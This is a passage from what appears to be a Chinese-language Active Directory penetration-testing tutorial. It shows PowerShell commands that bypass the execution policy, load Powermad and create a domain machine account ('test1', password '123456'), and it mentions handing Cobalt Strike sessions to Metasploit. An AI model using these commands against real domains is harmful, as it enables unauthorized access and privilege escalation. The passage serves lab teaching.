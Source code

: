 其实这里我一直觉得有一个坑，CS是没交互的功能的，那么如何执行交互呢，所以可能还是需要将会话转交给msf来执行。

```
Set-ExecutionPolicy Bypass -Scope Process   ##更改策略
import-module .\Powermad.ps1             ##执行脚本
New-MachineAccount -MachineAccount test1 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ##创建一个用户为test1的，然后密码是123456
```

![image-20230807093513649](assets/image-20230807093513649.png)

### 查看增加情况

这里在实际操作中是看不到增加情况的，但是这里是演示所以可以看一下，在域控是是否增加了一个用户。

![image-20230807093853570](assets/image-20230807093853570.png)
